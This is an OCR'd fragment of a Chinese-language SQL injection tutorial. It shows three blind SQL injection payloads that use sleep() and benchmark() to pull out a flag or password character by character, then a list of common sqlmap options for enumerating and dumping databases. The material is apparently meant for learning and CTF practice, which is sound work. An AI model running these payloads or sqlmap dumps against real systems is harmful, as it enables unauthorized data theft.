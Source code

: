 - `if(substr(flag, 1, 1) in (0x66), sleep(2), 0)`
- `SELECT CASE WHEN ascii(mid((SELECT flag FROM flag), 1, 1))=65 THEN benchmark(100000, sha1('1 ')) else '' END`
- `SELECT user FROM user WHERE id=1 AND if(substr(pass, 1, 1)in(0x70),sleep(2), 0);`

## 03 SQL 注入工具使用

### 0301 sqlmap 使用介绍

sqlmap 是一款自动化进行SQL注入的强大利器， [https://sqlmap.org](https://sqlmap.org)

#### **sqlmap 常用参数**

- `--users` #列出所有用户
- `—current-user` #列出当前用户
- `—is-dba` #查看当前用户是否为数据库管理员
- `—dbs` #列出所有数据库
- `—current-db` #查看当前数据库
- `-D "数据库名" —tables` #查表名
- `-D "数据库名" -T "表名" —columns` #查列名
- `-D "数据库名“ -T "表名" -C "列名" —dump` #查列名
- `—data "POST 数据"` #POST请求注入
- `-r r.txt` #将整个请求数据包保存为r.txt进行注入